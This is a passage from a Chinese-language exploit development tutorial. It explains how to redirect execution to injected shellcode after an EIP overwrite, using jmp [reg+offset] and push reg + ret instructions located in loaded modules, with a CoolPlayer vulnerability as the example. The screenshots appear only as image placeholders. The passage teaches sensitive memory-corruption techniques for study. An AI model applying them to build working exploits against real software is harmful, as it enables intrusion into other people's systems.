

这个空间足以让我们的 calc shellcode 很好地执行。

#### jmp [reg + offset]

无需使用自定义跳转代码直接递增寄存器，您可以让程序通过查找跳转到所需寄存器的现有指令加上其值的偏移量来为您完成工作。我将使用我们的 CoolPlayer 漏洞作为示例简要演示此技术。假设 EDX 是唯一一个接近指向我们的缓冲区的寄存器，但不幸的是，它指向了它之前大约 50 个字符的位置（这里不是这种情况，但我们会假装这个例子）。为了让我们使用 EDX，我们需要将其增加至少 50 个字节才能到达我们注入的代码。我们可以使用 jmp [edx + X] 指令（其中 X 表示大于 50 的数字）来完成此操作。例如，让我们搜索 jmp [edx + 64] 指令





这是来自 OS 模块的一些结果的屏幕截图



然后，您可以使用这些地址之一作为新的 EIP 覆盖。当然，您不限于 64 字节增量，您可能需要更多或更少。您只受到可用 DLL 中可用指令的限制。不幸的是，在这种情况下增加 EDX 会导致访问冲突，所以我找不到这个特定漏洞的可用地址（尽管我只尝试了几个）。无论如何，你应该记住这一点，作为在未来的攻击中跳转到你的 shellcode 的一种可能的方法。

### 操作堆栈

#### push [reg] + ret

操作堆栈的第一种方法是最容易理解的，因为它与发出 jump 或 call 指令的概念相同。让我们重新审视使​​用 CALL EBX 进行 EIP 覆盖的利用的原始版本，但假设我们找不到任何可用的 JMP 或 CALL EBX 指令。或者，我们可以搜索 PUSH EBX + RET 指令。这将有效地将 EBX 推到堆栈顶部，然后立即跳转到该地址。这次您将搜索 “All sequences in all modules”，以找到可用的 push ebx + ret 指令。





